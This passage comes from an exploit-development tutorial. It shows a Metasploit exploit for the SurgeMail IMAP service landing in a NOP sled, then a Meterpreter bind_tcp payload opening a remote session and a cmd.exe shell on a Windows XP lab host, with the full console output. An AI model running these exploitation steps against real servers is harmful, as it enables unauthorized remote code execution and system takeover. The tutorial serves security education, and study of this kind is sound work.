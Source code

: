 and finally execute the two jumps on the stack which will land us inside our NOP sled:

<img src="images/03/exploit07.png" width="480">

So far so good, time to get our Meterpreter shell, let’s rerun the exploit without the debugger:

```
msf exploit(surgemail_list) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(surgemail_list) > exploit

[*] Connecting to IMAP server 172.16.30.7:143...
[*] Started bind handler
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Sending payload
[*] Transmitting intermediate stager for over-sized stage...(191 bytes)
[*] Sending stage (2650 bytes)
[*] Sleeping before handling stage...
[*] Uploading DLL (75787 bytes)...
[*] Upload completed.
[*] Meterpreter session 1 opened (172.16.30.34:63937 -> 172.16.30.7:4444)

meterpreter > execute -f cmd.exe -c -i
Process 672 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

c:\surgemail>
```
